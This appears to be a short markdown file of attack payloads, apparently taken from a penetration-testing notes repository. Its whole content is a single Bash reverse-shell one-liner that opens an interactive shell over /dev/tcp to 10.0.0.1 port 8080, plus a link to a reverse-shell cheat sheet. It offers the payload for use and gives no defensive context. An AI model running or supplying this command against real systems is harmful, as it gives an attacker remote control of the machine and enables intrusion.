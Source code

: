 # Payloads

## Bash
```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

[Cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
